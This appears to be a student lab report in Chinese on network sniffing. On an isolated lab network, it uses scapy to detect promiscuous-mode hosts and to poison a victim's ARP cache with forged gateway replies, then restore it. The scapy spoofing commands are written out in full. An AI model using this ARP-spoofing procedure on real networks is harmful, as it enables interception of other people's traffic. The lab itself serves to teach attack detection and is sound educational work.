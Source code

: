 #   第四章 网络监听



## 网络拓扑

![network](./img/network.png)

如图所示网络中的节点基本信息如下：

- 攻击者主机
  - 08:00:27:0e:34:8d/eth0
  - 172.16.111.111
- 受害者主机
  - 08:00:27:17:0b:c2/eth0
  - 172.16.111.123
- 网关
  - 08:00:27:4e:a1:a2/enp0s9
  - 172.16.111.1



## 实验准备



### 安装scapy

在攻击者主机上提前安装好[scapy](https://scapy.net/)。

```c
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![scapy](./img/scapy.png)



## 实验一：检测局域网中的异常终端

```c
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![ip-link](./img/ip-link.png)



```c
# 在攻击者主机上开启 scapy,需要sudo 
sudo scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.123")
```

![promiscping1](./img/promiscping1.png)



```c
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
 
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![promisc-on](./img/promisc-on.png)



```c
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.123")
```

![promiscping2](./img/promiscping2.png)



```c
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```



维基百科解释了[混杂模式](https://zh.wikipedia.org/wiki/%E6%B7%B7%E6%9D%82%E6%A8%A1%E5%BC%8F)，即：

> **混杂模式**（英语：promiscuous mode）是[电脑网络](https://zh.wikipedia.org/wiki/电脑网络)中的术语。是指一台机器的[网卡](https://zh.wikipedia.org/wiki/网卡)能够接收所有经过它的数据流，而不论其目的地址是否是它。
>
> 一般计算机网卡都工作在非混杂模式下，此时网卡只接受来自网络端口的目的地址指向自己的数据。当网卡工作在混杂模式下时，网卡将来自接口的所有数据都捕获并交给相应的驱动程序。

简单来说，混杂模式下，受害者主机接收所有经过网卡(eth0)的数据包，包括不是发给它本机的包。



## 实验二：手工单步“毒化”目标主机的ARP缓存

以下代码在攻击者主机上的scapy交互式终端完成

```c
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![arpbroadcast](./img/arpbroadcast.png)



```c
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```

![gw_mac](./img/gw_mac.png)



```c
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.123
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.123", hwdst="08:00:27:0e:34:8d")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

![arpspoofed](./img/arpspoofed.png)



此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```c
ip neigh
```

![ip-neigh](./img/ip-neigh.png)



回到攻击者主机上的 scapy 交互式终端继续执行命令。

```c
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:4e:a1:a2", pdst="172.16.111.123", hwdst="08:00:27:17:0b:c2")
sendp(restorepkt1, count=100, inter=0.2)
```

![restorepkt1](./img/restorepkt1.png)



此时在受害者主机上准备“刷新”网关 ARP 记录。

```c
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

![ip-neigh2](./img/ip-neigh2.png)



## 参考文献

- [在线课本](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)
- [2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/imgs/1promsiping.png)

